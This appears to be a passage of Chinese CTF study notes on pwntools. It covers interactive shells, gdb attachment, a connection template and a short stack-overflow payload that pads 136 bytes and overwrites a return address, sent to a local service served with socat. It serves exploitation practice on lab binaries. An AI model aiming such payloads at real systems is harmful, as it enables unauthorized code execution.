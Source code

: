### 交互

```
c.interactive()
```

### 调试

```
p = process('./prc') # 运行设置要运行的程序
context.log_level = 'DEBUG' # 显示所有输入输出信息
context.terminal = ['gnome-terminal', '-x', 'sh', '-c'] # 设置运行的terminal， 还可以安装tmux
gdb.attach(p)
```

### 基本模板
```python
from pwn import *
context.log_level = 'debug' #debug模式,可输出详细信息
conn = remote('127.0.0.1' , 12345) #通过socat将二进制文件运行在某个端口之后,可使用本语句建立连接,易于在本地与远程之间转换。
print str(pwnlib.util.proc.pidof('<file_name>')[0]) #这两条便于在gdb下迅速attach 上对应的pid

## context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
gdb.attach(proc.pidof('<file_name>')[0])

raw_input('continue')
conn.recvuntil('Welcome') #两种不同的recv
conn.recv(2048)
shellcode = p32(0x0804a028) #用于将数字变成\x28\xa0\x04\x08的形式
conn.sendline(shellcode) #向程序发送信息,使用sendline而非send是个好习惯
conn.interactive() #拿到shell之后,用此进行交互
```

```python
from pwn import *
pwn=remote("127.0.0.1","12345")
payload='A'*136 + p64(0x00000000004005bd)
##pwn.recvuntil('Welcome') #两种不同的recv
pwn.sendline(payload)
pwn.interactive()
```

本地调试
```
socat tcp-listen:12345,fork EXEC:./<file_name>

gdb -> attach <pid> # 通过附加来得到准确的调试
```


## MISC

### 隐写术
